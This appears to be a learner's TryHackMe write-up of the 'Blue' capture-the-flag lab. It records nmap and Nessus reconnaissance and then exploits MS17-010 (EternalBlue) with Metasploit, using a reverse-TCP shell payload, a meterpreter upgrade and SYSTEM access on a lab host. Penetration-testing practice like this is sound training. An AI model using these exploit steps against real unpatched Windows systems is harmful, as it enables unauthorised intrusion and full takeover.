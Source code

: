 ## TryHackMe - (Eternal)Blue Methodology

This is the attack methodology I used for TryHackMe's Blue box.
This box is a step back from Blueprint in terms of objective progression, however I found it to be a good lesson in fundementals.
I will mainly be focusing on the flags.

---
### Environment
#### Operating System
Latest kali-VM rolling update
#### Tools
Nessus
Metasploit

### Methodology
#### Objectives/Flags
 Flag1, This flag can be found at the system root.
 Flag2, This flag can be found at the location where passwords are stored within Windows.
 Flag3, this flag can be found in an excellent location to loot.
#### Reconnaissance
First I started by running an nmap scan on the target. It was disclosed that ICMP was not going to work so I added in the extra ```-Pn``` into the options.
```
nmap -T4 -Pn <TargetIP>
	PORT      STATE SERVICE
	135/tcp   open  msrpc
	139/tcp   open  netbios-ssn
	445/tcp   open  microsoft-ds
	3389/tcp  open  ms-wbt-server
	49152/tcp open  unknown
	49153/tcp open  unknown
	49154/tcp open  unknown
	49158/tcp open  unknown
```
With this portscan I can see that there are a number of Windows services running on open ports. I figured this was a great time to employ a vulnerability scanner to see what more I could find.
I decided to try Nessus which is a well known vuln. scanner. Once downloading the installation file to my machine and registering for a license...
```
sudo apt install -f ./<Nessus.deb>
  service nessusd start
     https://kali:8834/
```
Once Nessus was up and running I set the Target and set it loose. A number of vulnerabilities were flagged and one stood out the most which I took to be relevant to the box.
```
port445 	MS17-010: Security Update for Microsoft Windows SMB Server (4013389) (ETERNALBLUE) (ETERNALCHAMPION) (ETERNALROMANCE) (ETERNALSYNERGY) (WannaCry) (EternalRocks) (Petya) (uncredentialed check)
```
#### Weaponization 
#### Delivery
#### Exploitation
The box walkthrough mentioned that it was time to use Metasploit which I've never used before. This required a bit of crash-coursing on google to understand the basic usage and comands. After booting it up I searched for the vulnerability code ```ms17-010``` and designated the local and remote hosts. I had additionally specified the port that was reported through Nessus but I don't know if this was needed.
```
metasploit
  search ms17-010
    exploit/windows/smb/ms17_010_eternalblue
		  use [0] (exploit/windows/smb/ms17_010_eternalblue)
		  set rhost 10.10.97.121
		  set lhost 10.4.63.148
		  set lport 445
		  set payload windows/x64/shell/reverse_tcp (This option was reccomended by the box's objective guide)
		  run
```
Success, I've now got shell access to the host. From here I was ready to start going for the flags, however the box's objective guide would walk me through upgrading the type of shell access I had to the machine. First I used ```Ctrl-Z``` to background the process and then worked to upgrade the session.
While still under the ms17-010 exploit I searched for the upgrade.
```
search shell_to_meterpreter
  use post/multi/manage/shell_to_meterpreter
sessions -l (used to display current sessions)
  set session 1
  run
```
A new session should spawn which I opened with ```session 2```.
#### Installation 
#### Command & Control
#### Actions on Objective
From here I verified the identity.
```
get system
  Already running as SYSTEM
shell
  whoami
    NT AUTHORITY\SYSTEM 
```

---
### After-action
#### What I've learned
#### What I would've done differently
